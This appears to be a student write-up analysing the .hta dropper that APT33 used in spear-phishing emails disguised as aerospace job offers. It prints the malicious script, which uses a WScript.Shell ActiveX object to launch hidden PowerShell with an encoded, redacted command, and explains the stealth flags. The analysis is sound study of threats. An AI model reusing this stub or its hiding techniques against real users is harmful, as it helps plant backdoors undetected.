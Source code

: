# ALFASHELL

## The spear phishing code used by APT33: Overview
> Code sampled from https://www.fireeye.com/blog/threat-research/2017/09/apt33-insights-into-iranian-cyber-espionage.html

This code was used to target employees in the aerospace and energy sectors. The emails posed as realistic looking job opportunities that
actually contained links to HTML application files (.hta). The .hta files had links to real job postings, but also contained code that would
a backdoor.

The code is publicly avaiable (a built in spear phishing module) in ALFA TEaM Shell (ALFASHELL) a web shell authored by GitHub user
**solevisible** (https://github.com/solevisible/ALFA-SHELL-V3)

## Analysis of .hta file

```
<title>Supply Specialist, Riyadh, Alsalam Company</title>
```
A legitimate aerospace company: http://www.alsalam.aero/
The company's legitimacy may have been the first step in getting the targets to begin navigating the webpage.
The links withing the .hta did also contain links to real job postings, further obscuring its real intention.

### The real threat

```
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir%\\System32\\cmd.exe /c powershell -window hidden -enc <redacted encoded command>', 0);
</script>
```

On the first line, a new object can be seen being made, which will allow the attacker to utilize a shell.
```
a=new ActiveXObject("WScript.Shell");
```

After the object is created/initialized, it envokes a 'run' command
```
a.run(
```

With a very obvious goal: the code creates a backdoor that allows for remote powershell use (similar to the 'tini' backdoor as shown in class)

The code first uses 
```
'%windir%\\System32
```
Which is the Windows directory or SYSROOT (https://superuser.com/questions/855615/what-is-windir) that would allow the malware
to execute the next bit of code once they had navigated to the correct path/directory:
```
\\cmd.exe
```
And thus a command window is open, allowing for the execution of any command

Aditionally, the 'hidden' keyword in the next portion of the code means that the powershell windo would be hidden from the user,
allowing the attacker to execute commands without the target noticing anything suspicious (especially as the use of the 'enc'
flag is employed, allowing for all potentially malicious looking strings to be encoded)
(https://stackoverflow.com/questions/1802127/how-to-run-a-powershell-script-without-displaying-a-window
https://www.danielbohannon.com/blog-1/2017/3/12/powershell-execution-argument-obfuscation-how-it-can-make-detection-easier)
```
powershell -window hidden -enc
```

And in a few lines of code, APT33 now has backdoor access to a targets computer.
